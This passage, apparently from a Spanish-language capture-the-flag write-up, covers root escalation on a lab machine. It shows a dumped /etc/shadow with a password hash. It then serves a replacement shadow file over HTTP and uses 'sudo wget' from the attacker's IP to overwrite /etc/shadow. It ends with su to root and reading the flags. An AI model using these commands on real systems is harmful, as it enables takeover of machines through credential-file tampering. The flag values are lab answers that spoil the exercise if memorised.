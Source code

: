 ```
systemd-bus-proxy:*:17953:0:99999:7:::
syslog:*:17953:0:99999:7:::
_apt:*:17953:0:99999:7:::
messagebus:*:17954:0:99999:7:::
uuidd:*:17954:0:99999:7:::
lightdm:*:17954:0:99999:7:::
whoopsie:*:17954:0:99999:7:::
avahi-autoipd:*:17954:0:99999:7:::
avahi:*:17954:0:99999:7:::
dnsmasq:*:17954:0:99999:7:::
colord:*:17954:0:99999:7:::
speech-dispatcher:!:17954:0:99999:7:::
hplip:*:17954:0:99999:7:::
kernoops:*:17954:0:99999:7:::
pulse:*:17954:0:99999:7:::
rtkit:*:17954:0:99999:7:::
saned:*:17954:0:99999:7:::
usbmux:*:17954:0:99999:7:::
jessie:$6$0wv9XLy.$HxqSdXgk7JJ6n9oZ9Z52qxuGCdFqp0qI/9X.a4VRJt860njSusSuQ663
bXfIV7y.ywZxeOinj4Mckj8/uvA7U.:18195:0:99999:7:::
sshd:*:18195:0:99999:7:::
```

Para sobrescribir el /etc/shadow de la máquina víctima nos ponemos en escucha desde nuestra máquina

```
python -m http.server 9999
```

Desde la máquina víctima ejecutamos el siguiente comando, que sobrescribirá el /etc/shadow asignandole como contraseña root al usuario root

```
sudo wget http://10.18.103.166:9999/shadow -O /etc/shadow
```

Nos convertimos en usuario root y capturamos las flags

```
jessie@CorpOne:~$ su root
Password: 
root@CorpOne:/home/jessie# whoami
root
root@CorpOne:/home/jessie# cat /home/jessie/Documents/user_flag.txt 
057c67131c3d5e42dd5cd3075b198ff6
root@CorpOne:/home/jessie# cat /root/root_flag.txt 
b1b968b37519ad1daa6408188649263d
```
